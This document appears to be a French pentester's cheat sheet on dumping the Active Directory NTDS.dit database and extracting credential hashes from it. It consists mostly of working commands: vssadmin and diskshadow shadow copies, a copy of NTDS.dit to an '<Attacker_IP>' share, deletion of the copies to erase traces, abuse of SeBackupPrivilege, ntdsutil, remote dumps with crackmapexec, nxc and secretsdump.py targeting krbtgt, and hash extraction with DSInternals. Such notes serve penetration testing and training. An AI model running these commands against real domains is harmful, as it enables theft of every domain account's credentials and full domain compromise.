```yaml
---
public: true
---
```

## Dump d'NTDS.dit
### Localement

#### Cliché instantané (vssadmin)

##### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

#### Cliché instantanné (diskshadow.exe)

##### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
 set verbose on
 set metadata C:\Windows\Temp\meta.cab
 set context clientaccessible
 set context persistent
 begin backup
 add volume C: alias cdrive
 create
 expose %cdrive% E:
 end backup
 exit
```

Effacer ses traces : après avoir copié ntds.dit (ou autre) on pourra supprimer le cliché instantané ainsi que son exposition via le lecteur E:

```shell
diskshadow.exe
 unexpose e: 
 list shadows all# affiche la liste des snapshots si on n'a pas noté l'ID lors de sa création
```


##### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Exploitation des privilèges Windows]])

```
# cas 1 : Robocopy "sait" utiliser le privilège SeBackupPrivilege
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

# cas 2 : sans robocopy, ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#### Création d'une sauvegarde via ntdsutil (non testé)

Le fichier créé dans ce format pourra par la suite être exploité pour fournir des métriques sur différents éléments liés aux mots de passe et leur robuster via l'outil Domain Password Audit Tool (DPAT) <https://github.com/clr2of8/DPAT>

```shell
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

### A distance

```
## utilise à distance ntdsutil
nxc smb ip -u user -p pass -M ntdsutil

crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds

secretsdump.py -just-dc-user $AD_DOMAIN/krbtgt  $AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP

```

## Extraction des informations d'identification (credentials)

## Localement
### Extraction des informations présentes dans NTDS.dit via DSInternals

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

### A distance
#### Extraction des hash d'un dump NTDS.dit via secretsdump.py

Prérequis : disposer d'NTDS.dit et du dump SYSTEM via `reg save HKLM\SYSTEM SYSTEM.SAV`

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM.sav -hashes lmhash:nthash LOCAL
```
